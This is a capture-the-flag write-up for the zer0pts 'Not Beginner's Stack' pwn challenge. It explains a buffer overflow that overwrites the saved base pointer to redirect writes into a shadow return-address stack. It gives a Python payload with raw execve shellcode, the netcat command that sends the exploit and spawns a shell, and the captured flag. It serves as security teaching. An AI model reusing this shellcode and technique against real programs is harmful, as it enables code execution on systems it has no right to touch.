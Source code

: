 # Not Beginner's Stack
- Category: Pwn
- Points: 100
- Solves:
- Solved by: drw0if, hdesk, mindlæss

## Description:

Elementary pwners love to overwrite the return address. This time you can't!

```
nc pwn.ctf.zer0pts.com 9011
```

### Author: ptr-yudai

## Analysis:

Running the program, we see that basically it asks for 2 inputs. 
Analyzing the source code we notice that the first function called is notvuln, which then calls the vuln function; this function asks for some input and then returns. Back in notvuln, we are asked another input and after it is given the program ends. The vuln function has, indeed, a vulnerability. It reads 0x1000 (which are 4096) bytes from standard input; the buffer in which this input is stored, however, can only contain 256 bytes. This means that we can overwrite something in the memory with this function. 

Unfortunately, as the challenge says, we can't overwrite the return address since the program defines its own call and ret instructions. Well, we can't overwrite the return address DIRECTLY. What we see if we look at the macros is that the return address is stored in __stack_shadow[__stack_depth++], so in the address starting at __stack_shadow, plus __stack_depth*8, which is then incremented.

```
mov ecx, [__stack_depth]
mov qword [__stack_shadow + rcx * 8], %%return_address
inc dword [__stack_depth]
```

Going back in vuln and notvuln, instead, we see that the buffer in which the read syscall writes is at rbp-0x100... 

```
mov edx, 0x100
lea rsi, [rbp-0x100]
xor edi, edi
call read 
```

So what if we overwrite the rbp?

## Solution:

Running the program in gdb we see that the address to which the program tries to return after a call is pointed at by rcx*8 + 0x600234. 

```
jmp    qword ptr [rcx*8 + 0x600234]
```

The value 0x600234 is exactly the address where __stack_shadow is.

So what we do is structuring our input this way: 256 trash bytes; the address of __stack_shadow+0x100; other trash filling the remaining bytes.

```
payload = b'\xcc'*256
payload += p64(0x600234+0x100)
payload += b'A'*(4096-len(payload))
```

In this way our rbp will be 0x600334, and the buffer where the read syscall in the notvuln function will try to write will be 0x600334-0x100, which is 0x600234, __stack_shadow indeed: our return address. 

Now that we know how to write in the return address, we just need to decide what to write there. First of all, we put 8 trash bytes, because running the program with gdb at this point we noticed that our input was actually getting written 8-bytes after the address at which __stack_shadow points. After those 8 bytes, we put the address to which we want the program to go, and then extacly at that address we put some NOPs followed by a shellcode.  

```
payload += p64(0x600234+50)
payload += p64(0x600234+50)
payload += b'\x90'*100
payload += b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload += b'\n'
```

What the program will do is write our input in __stack_shadow, go at the address in which we put our NOP sled, and then fall right into our shellcode.

Launching this piped in the netcat communication opened us a shell from which we then read the flag in the same directory.

```
(python3 exploit.py; cat -)|nc pwn.ctf.zer0pts.com 9011
```

```
cat flag-4c57150ed5cda2a8570c94eb5a9a5f9f.txt
```

## Flag:

```
zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}
```
